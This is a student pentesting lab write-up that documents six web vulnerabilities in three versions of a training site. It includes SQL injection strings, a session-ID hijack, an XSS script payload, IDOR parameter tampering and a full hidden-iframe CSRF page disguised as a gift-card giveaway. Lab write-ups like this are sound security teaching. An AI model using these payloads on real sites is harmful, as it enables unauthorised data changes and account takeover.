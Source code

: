 # Project 8 - Pentesting Live Targets

Time spent: **5** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection (SQLi)

Description: Injected two SQL commands instead of the Salesperson's ID number at the URL https://104.198.208.81/blue/public/salesperson.php?id= where the SQL commands are 'OR SLEEP(5)=0--' and 'AND NULL' One of the SQL Injections will cause the SQL query to pause for additional time before the information is displayed showing that there is a possible SQL Injection and information retrievable in the database. The other SQL Injection will cause the database query failed.

<img src="blue-SQLi.gif">

Vulnerability #2: Session Hijacking/Fixation

Description: Session Hjacked and Fixation by copying the PHPSESSIONID from an admin logged account and changing the PHPSESSIONID to the attacker unlogged account. Accessed the account login at the URL https://104.198.208.81/blue/public/ and adjusted the PHPSESSIONID using /hacktools/change_session_id.php

<img src="blue-Session_Hijacking_Fixation.gif">

## Green

Vulnerability #1: Username Enumeration

Description: Username Enumeration occured when usernames are valid and invalid in the server. For usernames that exist, the unsuccessful login message will be bolded whereas for usernames that does not exist the message will be unbolded. Developers assigned two different span tag classes, failure as bolded style whereas failed as unbolded style in HTML/CSS. Vulnerability can be fixed by keeping span tag classes the same when usernames are valid and invalid in the server.
  
<img src="green-Username_Enumeration.gif">

Vulnerability #2: Cross-Site Scripting (XSS)

Description: Pushed a Cross-Site Scripting in the contact feedback form. Inserted the XSS command <script>alert('WILL GOT HACKED BY XSS');</script> and the XSS attack script will run once the administrator account user clicks on the page.
  
<img src="green-XSS.gif">

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Description: Insecure Direct Object Reference occured when modifying the id parameter at the URL https://104.198.208.81/red/public/salesperson.php?id= and access were gained in hidden accounts id 10 of Testy McTesterson along with id 11 of Lazy Lazyman by altering the GET request. Developers should check which user accounts are for public or private viewing at the main page and files.

<img src="red-IDOR.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)

Description: Cross-Site Request Forgery cause a forge post request to modify information in the Salespeople database using a malicious HTML page in the user session hidden iframe. CSRF will run once an administrator account user access the page. Developers should require CSRF tokens on the Salespeople edit form submit database and disallow loading responses onto hidden iframe. Below is the HTML code that secretly loads the page and hides the outcome.
><!DOCTYPE html>
<html>
  <head>
    <title>$100 Gift Cards Giveaways</title>
  </head>
  <body onload="document.my_form.submit()">
    <form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=1" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="GOT HACKED DARON" />
      <input type="text" name="last_name" value="GOT HACKED BURKE" />
      <input type="text" name="phone" value="123-456-7890" />
      <input type="text" name="email" value="DARONBURKE@HACKED.COM" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>

<img src="red-CSRF.gif">

## Notes

Describe any challenges encountered while doing the work
